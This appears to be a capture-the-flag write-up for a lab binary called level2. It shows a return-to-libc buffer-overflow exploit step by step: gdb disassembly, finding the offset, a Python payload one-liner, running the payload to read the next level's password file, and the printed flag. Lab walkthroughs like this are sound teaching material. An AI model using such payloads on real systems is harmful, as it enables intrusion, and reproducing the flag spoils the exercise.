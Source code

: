 As seen in the disassembled code, the program uses the gets() function to take user input :

```
gdb ./level2
disass p
```

but this time we also see that check ensures that the return address is not overwritten with an address on the stack:

```
0x80484fb <p+39>:	and    eax,0xb0000000
0x8048500 <p+44>:	cmp    eax,0xb0000000
```


We will bypass this check using a return-to-libc exploit. First, we find the address of the system function in libc:
```
ldd ./level2 | grep libc
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
Next, we find the address of the ret instruction:
```
0x804853e <p+106>:	ret
```
We export the shell we want to use:
```
$ export SHELL=/bin/sh
```
Then, we write a small program to find the address of environment variables (available in ressoures).
```
$ gcc getenv.c -o getenv
$ ./getenv SHELL
SHELL is at 0xbffff935
```
We need to determine the offset at which the buffer overflows:
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
```
Now, we prepare the payload:
```
$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "DUMM" + "\x35\xf9\xff\xbf"' > /tmp/payload2
$ cat /tmp/payload2 - | ./level2
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
